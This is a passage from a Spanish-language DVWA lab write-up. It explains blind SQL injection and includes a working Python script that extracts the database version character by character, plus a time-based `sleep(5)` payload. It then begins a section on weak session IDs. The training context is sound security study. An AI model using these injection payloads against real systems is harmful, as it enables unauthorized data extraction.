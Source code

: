 
### SQL INJECTION Blind

Es una variante del SQL Injection donde el atacante no recibe mensajes de error, pero puede inferir información.

Creo el siguiente script:

```bash
import requests 
from requests.structures import CaseInsensitiveDict 
headers = CaseInsensitiveDict() 
headers["Cookie"] = "security=low; PHPSESSID=to84ds41bhba7ub48s10a8qim0" 
url = 'http://192.168.170.131/vulnerabilities/sqli_blind/' 
for i in range(100): 
parameters = f"id=1'+and+length(version())%3d{i}%23&Submit=Submit" 
r = requests.get(url, headers=headers, params=parameters) 
if 'User ID exists in the database' in r.text: 
print(f'length = {i}') 
length = i 
break 
j = 1 
for i in range(1, length+1): 
for s in range(30, 126): 
parameters = 
f"id=1'+and+ascii(substring(version(),{i},{j}))%3d{s}%23&Submit=Submit" 
r = requests.get(url, headers=headers, params=parameters) 
if 'User ID exists in the database' in r.text: 
print(chr(s), end='') 
break 
j += 1 
```

Antes de ejecutarlo, mando al servidor a dormir con un:

```bash
1' and sleep(5)# 
```

![image](https://github.com/user-attachments/assets/7b9e689a-f40f-4f30-888b-5c7592a8555a)

Mientras tanto, ejecuto el script y me sale lo siguiente:

![10 2](https://github.com/user-attachments/assets/bd878eeb-6d29-4d04-bb28-9da57670079b)

---

### WEAK SESSION IDs

Sucede cuando los identificadores de sesión son predecibles o fáciles de adivinar, lo que permite a un atacante secuestrar sesiones de usuarios legítimos. 

En este caso, DVWA crea una nueva cookie cada ves que le damos al botón: 

![image](https://github.com/user-attachments/assets/1201beb9-af35-401a-a025-a31a9fb3c2fd)

